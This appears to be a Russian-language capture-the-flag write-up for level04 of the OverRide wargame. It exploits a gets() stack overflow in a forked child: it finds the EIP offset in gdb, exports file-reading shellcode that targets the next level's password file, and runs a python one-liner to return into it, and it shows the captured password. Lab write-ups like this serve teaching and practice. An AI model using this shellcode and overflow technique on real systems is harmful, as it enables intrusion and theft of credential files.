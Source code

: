 катнув левел, мы видим мем:
[�%uGive me some shellcode, kchild is exiting...no exec() for you;P    L�� (так же походу не даст нам прокинуть exec bin/sh from shellocode)

Походу тут опять какой-нибудь gets для которого нужен shellcode
ltrace собственно подтверждает 
level04@OverRide:~$ ltrace ./level04
__libc_start_main(0x80486c8, 1, -10348, 0x8048830, 0x80488a0 <unfinished ...>
signal(14, 0x0804868f)                                                   = NULL
alarm(60)                                                                = 0
fork(Give me some shellcode, k
)                                                                   = 2120
wait(0xf

info functions:
0x080484a0  fflush
0x080484a0  fflush@plt
0x080484b0  gets             как я и говорил
0x080484b0  gets@plt
0x080484c0  getchar
0x080484c0  getchar@plt
0x080484d0  signal
0x080484d0  signal@plt
0x080484e0  alarm
0x080484e0  alarm@plt
0x080484f0  wait
0x080484f0  wait@plt
0x08048500  puts
0x08048500  puts@plt

Но есть какой-то страшный fork

   0x080486d6 <+14>:    call   0x8048550 <fork@plt> -- форкаемся
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx
   0x080486e6 <+30>:    mov    $0x0,%eax
   0x080486eb <+35>:    mov    $0x20,%edx
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp)
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp)
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp) смотрим что мы - чайлд (obj = fork; if obj == 0 then we are child)
   0x08048711 <+73>:    jne    0x8048769 <main+161> и если мы чайлд то
   0x0804875e <+150>:    call   0x80484b0 <gets@plt> по итогу проваливаемся в гетс который мы должны хАкнуть

Т.е мы за раз(родителем) должны провалится в gets и вставить туда shellcode. так же мы должны найти offset. Ищем через https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
ю.д

ltrace -f позволяет нам отслеживать дочерний процесс

оффсет в 100 нам ничего не дал, пробуем в 200

level04@OverRide:~$ ltrace -f ./level04
[pid 2257] __libc_start_main(0x80486c8, 1, -10348, 0x8048830, 0x80488a0 <unfinished ...>
[pid 2257] signal(14, 0x0804868f)                                        = NULL
[pid 2257] alarm(60)                                                     = 0
[pid 2257] fork()                                                        = 2258
[pid 2257] wait(0xffffd65c <unfinished ...>
[pid 2258] <... fork resumed> )                                          = 0
[pid 2258] prctl(1, 1, 0, 0xf7e2fe44, 2944)                              = 0
[pid 2258] ptrace(0, 0, 0, 0, 2944)                                      = -1
[pid 2258] puts("Give me some shellcode, k"Give me some shellcode, k
)                             = 26
[pid 2258] gets(-10656, 0, 0, 0, 2944Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
)                                   = -10656
[pid 2258] --- SIGSEGV (Segmentation fault) ---
[pid 2258] +++ killed by SIGSEGV +++
[pid 2257] --- SIGCHLD (Child exited) ---
[pid 2257] <... wait resumed> )                                          = 2258
[pid 2257] puts("child is exiting..."child is exiting...
)                                   = 20
[pid 2257] +++ exited (status 0) +++
level04@OverRide:~$

EIP не дал :( . Тогда идем в gdb
set follow-fork-mode child - позесимся в child.

(gdb) r
Starting program: /home/users/level04/level04
[New process 2265]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2265]
0x41326641 in ?? () - EIP :)

Вставив его в генератор получим оффсет: 
156

далее находим shellcode to open bin/sh. Но есть проблема, используется ptrace родителем, который запрещает execute дочернему процессу.
Поэтому нам нужно не вызывать execute, а читать: http://shell-storm.org/shellcode/files/shellcode-73.php
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
"\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"
"\x80\x89\xc6\xeb\x06\xb0\x01\x31"
"\xdb\xcd\x80\x89\xf3\xb0\x03\x83"
"\xec\x01\x8d\x0c\x24\xb2\x01\xcd"
"\x80\x31\xdb\x39\xc3\x74\xe6\xb0"
"\x04\xb3\x01\xb2\x01\xcd\x80\x83"
"\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"
"\xff"
"/etc/passwd"; //Put here the file path, default is /etc/passwd

export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'

megahuxks.c:
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("SHELLCODE"));
}

если скомпилим по дефолту, то будет компилить в x64, но адрес его нам не подходит, по этому компилим 32 
level04@OverRide:/tmp$ gcc -m32 megahuxks.c
level04@OverRide:/tmp$ ./a.out
0xffffd881


По итогу эксплойт:

offset + shellcodeaddr


level04@OverRide:~$ python -c "print 156 * 'a' + '\x81\xd8\xff\xff'" | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
